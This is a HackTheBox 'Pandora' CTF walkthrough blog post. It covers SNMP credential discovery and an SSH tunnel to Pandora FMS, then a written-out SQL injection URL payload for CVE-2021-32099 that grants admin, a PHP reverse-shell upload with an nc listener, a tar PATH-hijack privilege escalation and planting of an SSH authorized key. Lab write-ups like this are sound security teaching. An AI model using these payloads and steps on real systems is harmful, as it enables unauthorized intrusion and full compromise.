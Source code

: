 ```yaml
---
title: "HackTheBox Pandora Walkthrough"
date: "2022-06-01"
categories: 
  - "htb-walkthroughs"
coverImage: "image-2.png"
---
```


Like always, we start off with an NMAP scan. I chose to use NMAPAutomator.

[https://github.com/21y4d/nmapAutomator](https://github.com/21y4d/nmapAutomator)

[![](images/image-1024x395.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image.png)

[![](images/image-1-1024x527.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-1.png)

TCP ports 22 and 80 are open. UDP port 161 is open and running SNMP service.

Let's try visiting port 80 first using an HTTP link.

[![](images/image-2-962x1024.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-2.png)

Nothing seems interesting on this page.

Let's try port 161 next.

snmp-check 10.10.11.136

[![](images/image-3-1024x910.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-3.png)

Scrolling down we find some interesting data containing a username and password.

[![](images/image-4.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-4.png)

We can try logging into ssh using the newly acquired credentials.

ssh daniel@10.10.11.136

[![](images/image-5.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-5.png)

linpeas.sh is conveniently stored in the home folder.

Nothing interesting was found from running Linpeas for now.

Next, we'll try running Netstat to see if we can find anything.

netstat -an

[![](images/image-6-1024x304.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-6.png)

There is a service running on port 80.

To access it, we need to set up a tunnel on port 80 from the victim machine to our kali machine.

ssh -L 80:localhost:80 daniel@10.10.11.136

Now we can access the service by opening localhost/pandora\_console on our kali machine.

[![](images/image-7-802x1024.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-7.png)

Let's try entering daniels credentials in.

[![](images/image-8.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-8.png)

No luck there. By searching google for pandora FMS 742 exploit (version # found at the bottom of the pandora\_console homepage).

There is an interesting article written about CVE-2021-32099. A SQL injection vulnerability. [https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/)

Following the guide, we can use Sqlmap to try and find a session id to log in as matt or daniel. Unfortunately, that doesn't really help us.

More googling led me to find the following POC [https://github.com/ibnuuby/CVE-2021-32099](https://github.com/ibnuuby/CVE-2021-32099)

By adding the following to the URL, we can login as admin by simply visiting http://localhost/pandora\_console

http://localhost/pandora\_console/include/chart\_generator.php?session\_id=a' UNION SELECT 'a',1,'id\_usuario|s:5:"admin";' as data FROM tsessions\_php WHERE '1'='1

[![](images/image-9-931x1024.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-9.png)

Now that we're logged in as admin, we can navigate to the file manager and upload some malicious code!

Download this PHP code to create a reverse shell. [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

[![](images/image-10-1024x857.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-10.png)

Be sure to edit the file and add your listening IP and port. I'm using port 4444 for this demonstration.

Save and upload the file.

[![](images/image-11-1024x806.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-11.png)

Notice how we uploaded the file to the directory 'images'.

Now we need to start a listener on our kali machine.

nc -lnvp 4444

[![](images/image-12.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-12.png)

Our machine is listening and now we need to run the PHP file that we've just uploaded.

[![](images/image-13-1024x515.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-13.png)

We've got a shell logged in as matt!

cat /home/matt/user.txt

We have our first flag. Now we need to see how we can escalate privileges to root.

First, we can try running linpeas as matt to see if we can find anything.

[![](images/image-14-1024x873.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-14.png)

Pandora\_backup is an interesting file that is owned by root.

Let's take a look inside to see if we can find anything.

cat /usr/bin/pandora\_backup

[![](images/image-15-1024x571.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-15.png)

Somewhere inside the file, tar is running. We can try to exploit this by changing the $PATH variable.

First, we'll create a new file named tar that will run bash -p.

We'll make the tar an executable and then modify the $PATH to add a new path where our tar is located.

By running /usr/bin/pandora\_backup as matt, inside the file root will actually execute tar. When root executes our tar file, a new bash terminal will spawn as root.

echo "bash -p" > tar
chmod +x tar
export PATH=/home/matt:$PATH

Now we'll actually need to ssh into this machine in order for the exploit to work.

The quickest way is to use an ssh key generated on our kali machine.

ssh-keygen

[![](images/image-16.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-16.png)

cat ~/.ssh/id\_rsa.pub

Copy the public key and paste it into matts machine.

echo "<id\_rsa.pub>" > /home/matt/.ssh/authorized\_keys

chmod 0600 /home/matt/.ssh/authorized\_keys

Now we can ssh from our kali machine

ssh matt@10.10.11.136

Since this is a new session we'll need to export our new path again.

export PATH=/home/matt:$PATH
/usr/bin/pandora\_backup

[![](images/image-17.png)](http://localhost/wordpress/wp-content/uploads/2022/05/image-17.png)

And we have our root.txt!
